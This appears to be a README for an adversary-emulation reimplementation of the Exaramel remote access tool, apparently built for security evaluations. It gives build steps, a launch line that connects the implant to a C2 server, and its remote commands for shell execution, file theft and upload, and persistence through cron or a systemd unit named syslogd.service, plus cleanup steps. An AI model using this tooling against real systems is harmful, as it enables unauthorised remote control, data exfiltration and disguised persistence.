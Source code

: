 # Exaramel

Exaramel is a Remote Access Tool known to be used by Sandworm to achieve C2 over HTTPS with their
target systems. There exist versions for both Linux and Windows. While Go is a language that enables
cross-compilation, the Linux and Windows specimens that were discovered and analyzed presented many
differences in how they functioned. As a result, for the purposes of this evaluation, the code base
for Exaramel has been split into two.

Exaramel for Linux provides basic RAT functionality. Specifically, it provides command execution and file upload and download capabilities. On startup, it creates a named UNIX domain socket which is used to ensure that it is the only instance of Exaramel running on the system. If a configuration file does not exist, it then writes one with default values. Lastly, Exaramel is supposed to automatically establish persistence, either through a user `crontab` or by writing a `systemd` service. However, for this evaluation, we have changed persistence to be established on demand, only when the RAT receives the specific command from the C2 server.

## Quick Start

```bash
# automatically build Exaramel for Linux and Windows; look for 'Exaramel-Linux' and 'Exaramel-Windows' in the Exaramel directory
make
ls -lsah

# upload Exaramel to target
How you get here is up to you

# Linux only: once the binary is on the target filesystem, set execute permissions
chmod 755 Exaramel-Linux
./Exaramel-Linux

# Windows
.\Exaramel-Windows
```

## Build Instructions

Use the 'make' utility as follows:

```bash
# automatically build Exaramel for Linux and Windows; look for 'Exaramel-Linux' and 'Exaramel-Windows' in the Exaramel directory
make
ls -lsah
```

## Test Instructions

```bash
go test ./...
````

## Usage Examples

#### Linux

Execute the agent:

    ```bash
    ./exaramel -server=<server_ip:port>
    ```

Commands to receive from the server:

    Set persistence:
        persist [cron|systemd]

    Execute a shell command:
        exec <shell_command>

    Download a file from the target:
        get <file_on_target> <filename_to_save_as>

    Upload file to target:
        put <file_to_upload> <filepath_on_target_to_upload_to>

Provide a command to the C2 Server:

    ./evalsC2Client.py --set-task exaramel-implant <command>

### Cleanup Instructions

Kill the Exaramel process and delete its binary from disk:

```bash
sudo pkill Exaramel-Linux
shred Exaramel-Linux
```

Delete persistence:

```
# Delete systemd stuff
systemctl disable syslogd.service
systemctl stop syslogd.service
shred /etc/systemd/system/syslogd.service

# Cleanup Exaramel-Linux socket
shred /tmp/.applocktx
```

### CTI Evidence

<https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/>

<https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf>
